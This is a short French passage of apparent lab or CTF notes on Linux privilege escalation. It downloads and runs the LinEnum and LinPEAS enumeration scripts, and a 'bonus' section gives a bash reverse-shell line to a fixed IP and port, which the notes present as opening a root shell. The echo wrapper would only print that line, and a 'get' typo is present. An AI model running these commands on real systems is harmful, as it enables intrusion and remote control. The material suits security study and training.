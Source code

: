 * **LinEnum** et **LinPEAS** sont des scripts populaires pour cette tâche.

```bash
get https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O linenum.sh
chmod +x linenum.sh
./linenum.sh
```

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/download/20230827/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Ces commandes et outils aident à identifier les vecteurs d'attaque potentiels pour l'escalade de privilèges sur un système Linux en exploitant les configurations faibles, les permissions incorrectes, et d'autres vulnérabilités.

***

BONUS:

commande pour activer un shell root via nc (à faire sur machine cible):

```bash
echo 'bash -i >& /dev/tcp/10.21.30.199/4444 0>&1'
```
